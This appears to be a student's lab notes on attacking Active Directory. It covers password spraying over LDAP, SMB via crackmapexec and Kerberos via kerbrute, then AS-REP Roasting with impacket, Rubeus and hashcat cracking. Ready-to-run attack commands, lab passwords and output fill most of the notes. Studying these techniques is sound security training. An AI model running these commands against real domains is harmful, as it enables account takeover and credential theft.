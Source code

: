  

- Uses LDAP and ADSI to perform a low and slow password attack against AD users.  
    - we can also make queries in the context of a different user by setting the DirectoryEntry instance  
    - provide three arguments, including the LDAP path to the domain controller, the username, and the password  
    - `$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() $PDC = ($domainObj.PdcRoleOwner).Name $SearchString = "LDAP://" $SearchString += $PDC + "/" $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))" $SearchString += $DistinguishedName New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")`  
    - output -> `distinguishedName : {DC=corp,DC=com} Path: LDAP://DC1.corp.com/DC=corp,DC=com`  
    - To avoid incorrect password Exceptions  
    -change the password in the constructor to **WrongPassword**
- We could use this technique to create a PowerShell script that enumerates all users and performs authentications according to the Lockout threshold and Lockout observation window.  
    -This password spraying tactic is already implemented in the PowerShell script **`C:\Tools\Spray-Passwords.ps1`**  
    -`cd C:\Tools`
    - `powershell -ep bypass`
    - `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
        - -Pass = set a single password to test
        - -File = submit a wordlist file
        - -Admin = test admin accounts
    - Output --> `'pete' with password: 'Nexus123!' 'jen' with password: 'Nexus123!'`

2nd Type of Password spraying attack (SMB):  
- Drawback:  
- For example, for every authentication attempt, a full SMB connection has to be set up and then terminated.  
- **crackmapexec**  
- `cat users.txt`  
- `crackmapexec smb 192.168.200.75 -u usernames.txt -p 'Nexus123!' -d corp.com --continue-on-success`  
- smb = protocol  
- -u = username/file  
- -p = password  
- -d = domain  
- --continue-on-success = avoid stopping at the first valid credential  
- Bonus:  
- output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has admin priv on tgt system  
- Dave is a local admin on CLIENT75. Let's use crackmapexec with the password Flowers1 targeting this machine  
-`crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com`

3rd Type of Password spraying attack (TGT)

- _kinit_
    - Can obtain and cache a Kerberos TGT
        - Need to provide a username and password
    - Advantage:
        - only uses two UDP frames
            - To determine whether the password is valid, it sends only an AS-REQ and examines the response
- _kerbrute_
    - automate obtaining and caching a Kerberos TGT
    - Location: **`C:\Tools`**  
        `.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`  
        - passwordspray = command  
        - -d = domain  
        - user.file pass  
        -[`If you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's Save As functionality to change the encoding.`]

### 

AS-REP Roasting

- _Kerberos preauthentication_
    - As we have discussed, the first step of the authentication process via Kerberos is to send an AS-REQ. Based on this request, the domain controller can validate if the authentication is successful. If it is, the domain controller replies with an AS-REP containing the session key and TGT
- _AS-REP Roasting_ (attack)
    - Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response.
    - By default, the AD user account option Do not require Kerberos preauthentication is disabled
    - However, it is possible to enable this account option manually

Perform AS-REP Roasting on Linux

- **impacket-GetNPUsers**
    - To perform AS-REP roasting
    - `impacket-GetNPUsers -dc-ip 192.168.200.70 -request -outputfile hashes.asreproast corp.com/pete`
        - password = Nexus123!
        - **-dc-ip** = IP address of the domain controller
        - **-outputfile** = output file in which the AS-REP hash will be stored in Hashcat format
        - **-request** = request the TGT
        - **domain/user** = user authentification format
    - Check the correct mode for the AS-REP hash in Hashcat  
        -`hashcat --help | grep -i "Kerberos"`
        - output --> `18200 | Kerberos 5, etype 23, AS-REP`
    - Crack the hash  
        -`sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
        - output --> Flowers1
            - If you get "Not enough allocatable device memory for this attack", shut down your Kali VM and add more RAM to it.

Perform AS-REP Roasting on Windows

- _Rubeus_
    - toolset for raw Kerberos interactions and abuses
    - Set up:  
        -RDP -> CLIENT75 jeff HenchmanPutridBonbon11
    - Start:
        - `cd C:\Tools`
        - `.\Rubeus.exe asreproast /nowrap`
            - **asreproast** = pre-authenticated domain
            - **/nowrap** = no new lines
        - Copy hash to home dir and crack
            - `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
- Identify users with the enabled AD user account option _Do not require Kerberos preauthentication_
    - [Windows] PowerView
        - _Get-DomainUser_
            - **-PreauthNotRquired**
    - [Kali] _impacket-GetNPUsers_
        - without the **-request** and **-outputfile** options.
- Can use _GenericWrite_ or _GenericAll_ permissions to modify the User Account Control value of the user to not require Kerberos preauthentication.
    - Known as _Targeted AS-REP Roasting_